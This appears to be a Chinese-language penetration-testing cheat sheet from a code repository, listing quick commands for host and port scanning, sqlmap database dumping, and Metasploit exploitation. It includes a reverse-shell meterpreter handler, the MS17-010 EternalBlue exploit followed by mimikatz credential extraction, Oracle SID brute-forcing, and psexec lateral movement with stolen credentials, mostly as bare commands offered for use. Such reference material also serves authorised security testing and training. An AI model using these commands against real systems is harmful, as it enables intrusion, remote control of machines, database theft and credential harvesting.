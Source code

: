 # Speed-PenTest 
`常用的渗透操作`
[TOC]

---

# 通用
## 信息收集
### IP扫
>netdiscover -r 1.1.1.0/24

### 端口扫
>nmap -T5 -A -v 1.1.1.1

---

# Web
## SQL注入
### sqlmap
```sql
sqlmap -u URL	判断注入
sqlmap -u URL --current-db	 获取当前数据库
sqlmap -u URL -D DATABASE --tables		获取数据库表
sqlmap -u URL -D DATABASE -T TABLES --columns	获取指定表的列名
sqlmap -u URL -D DATABASE -T TABLES -C COLUMNS --dump		获取指定表的列名
```

## 业务渗透
### openssl
MassBleed
sslscan
testssl

---

# 监听器
## handler
```bash
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set LHOST
set LPORT
```

## exp
### ms17-010
```bash
发现，检测
use auxiliary/scanner/smb/smb_ms17_010

使用payload连上去
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/reverse_tcp
set lhost   #设一下本机地址
set rhosts 
run

msf 下
加载mimikatz模块
load mimikatz
kerberos
```

## poc
### CVE-2012-1675 Oracle TNS Listener Remote Poisoning
```bash
use auxiliary/admin/oracle/tnscmd   #该漏洞可以远程获取到oracle的内存信息，若是能获取到内存中的数据即为存在漏洞。
use auxiliary/admin/oracle/sid_brute  #爆破oracle的SID
```

## 域
cmd 下
```bash
#如果没有psexec工具记得找pstool工具包，传一个上去
psexec \\hostIp -u [username] -p [password] cmd
```

`日后我们知道，真正的人生道路是由内心决定的。不论我们的道路看上去如此曲折、如此荒谬地背离我们的愿望，它终归还是把我们引到我们看不见的目的地。（茨威格《昨日世界》） `
